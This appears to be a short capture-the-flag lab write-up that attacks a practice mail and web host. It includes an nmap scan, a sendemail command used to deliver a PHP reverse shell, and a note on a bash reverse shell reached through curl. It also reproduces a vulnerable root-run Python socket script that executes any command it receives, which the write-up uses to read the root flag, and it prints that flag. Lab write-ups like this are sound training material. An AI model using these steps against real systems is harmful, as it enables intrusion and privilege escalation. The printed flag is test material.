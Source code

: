 # CTF 3 


## Hints

- `Get-SCPFolder -ComputerName 'Riften.robstargames.com' -Credential $credential -LocalFolder 'C:\backups' -RemoteFolder '/var/mail/bugs'`
- IP: 192.168.22.65


### Nmap scan

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-07 16:02 CET
Nmap scan report for Riften.robstargames.com (192.168.22.65)
Host is up (0.00061s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT     STATE  SERVICE
22/tcp   open   ssh
25/tcp   open   smtp
80/tcp   open   http
443/tcp  closed https
3000/tcp open   ppp

Nmap done: 1 IP address (1 host up) scanned in 4.77 seconds

```


- sendemail -f ultraspam69420@example.com -t bugs@robstargames.com -u "Subject" -m "YadaYada" -s 192.168.22.65 -o tls=no
- sendemail with php revshell ([revshells.com](revshells.com))
- from revshell curl request with bash revshell
- passwort ain't working
- writable path
- SSH-shell is rbash
- with linpeas found /opt/cloak.py:




```
#!/usr/bin/env python3

import socket
import os
import hashlib

if os.path.exists("/run/cloak.sock"):
    os.remove("/run/cloak.sock")

socket = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
socket.bind("/run/cloak.sock")
os.system("chmod o+w /run/cloak.sock")

while True:
    socket.listen(1)
    connection, address = socket.accept()

    welcome = "Welcome to the debug socket!\nPlease provide your password: "
    connection.sendall(welcome.encode())

    data = connection.recv(1024)

    # for security reasons I have secured access to the debug socket with password
    hash = "e0dc3deda28c0a78ddb6ed718f9d6332378df1b1ec4654fa2177fbcf773fd9c1"

    if(hashlib.sha256(data.decode().strip().encode()).hexdigest() == hash):
        print("success")
        response = "password accepted!\n"
        connection.sendall(response.encode())

        try:
            while True:
                response = "enter command: "
                connection.sendall(response.encode())
                data = connection.recv(1024)

                if data:
                    returncode = os.system(data)
                    if(returncode == 0):
                        response = "command executed!\n"
                        connection.sendall(response.encode())
                    else:
                        response = "an error has occured..\n"
                        connection.sendall(response.encode())
                        connection.close()
        # sometimes this crashes but I have set up a service that should restart it
        except:
            print("nothing to see here..")

    # just in case..
    else:
        print("invalid password")
        response = "invalid password, goodbye!\n"
        connection.sendall(response.encode())
        connection.close()
```


Read root flag:
```
cat /root/root.txt > /home/stormcloak/out
command executed!
enter command: asdf
asdf
an error has occured..
stormcloak@Riften:~$ cat out
cat out
Your flag is: 8e9e8455f6840e45e8c12798e7a47bf2 
```

